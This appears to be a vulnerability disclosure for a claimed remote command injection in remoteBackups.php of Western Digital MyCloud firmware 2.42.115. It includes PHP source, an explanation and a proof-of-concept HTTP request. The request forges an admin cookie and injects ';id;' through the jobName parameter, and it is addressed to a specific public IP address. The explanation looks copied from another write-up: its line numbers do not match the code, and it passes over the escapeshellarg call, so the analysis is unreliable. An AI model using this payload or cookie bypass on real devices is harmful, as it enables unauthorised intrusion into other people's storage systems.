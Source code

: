 ## Western Digital MyCloud v2.42.115 Remote Command Injection in remoteBackups.php

#### The latest firmware download link:https://downloads.wdc.com/nas/My_Cloud_GLCR_2.42.115.bin

### Description

A remote command execution bug exists in the `php/remoteBackups.php` script with in the Western Digital MyCloud <=v2.42.115 web interface.

##### Remote Command Execution

The `php/remoteBackups.php` file is vulnerable to a remote command execution bug allowing for a logged in user to execute commands.The following code illustrates the vulnerability.

`php/remoteBackups.php`

```
$cmd = $_REQUEST['cmd'];
$RemoteBackupsAPI = new RemoteBackupsAPI;

switch ($cmd) {
	case "getRecoverItems":
		$RemoteBackupsAPI->getRecoverItems();
		break;
}


class RemoteBackupsAPI{
	public function getRecoverItems()
	{
		$xmlPath = "/var/www/xml/rsync_recover_items.xml";
		$jobName = $_REQUEST['jobName'];
		
		@unlink($xmlPath);
		
		$cmd = sprintf("rsyncmd -l \"$xmlPath\" -r %s >/dev/null", escapeshellarg($jobName));
		system($cmd);
```

![image-20250528154959691](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505281549907.png)

```
On line 17 above the "$cmd" variable is used to determine the path of the code through the use of a switch statement (even though there is only 1 case). If "$cmd" is set to "getRecoverItems", we reach the getRecoverItems() method of the "RemoteBackupsAPI" class. Within this function, the "jobName" request variable (which can be a cookie, get or post value) is loaded into the "$jobName" local var (Ln. 32). From here, a pattern similar to all the rest of the command injection bugs on this page is used which consists of loading the user supplied value (within jobName) into the syntax of an argument for a command (Ln 36). The value is then stored in the "$cmd" variable and used in the PHP system() call on line 37.
```

### **POC**

- Add the cookie `Cookie: isAdmin=1;username=admin`

```http
GET /web/php/remoteBackups.php?cmd=getRecoverItems&jobName=%22;id;%22 HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: no-cache
Connection: keep-alive
Cookie: isAdmin=1;username=admin
Host: 213.60.33.2
Pragma: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
```



![image-20250528144722615](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505281447883.png)
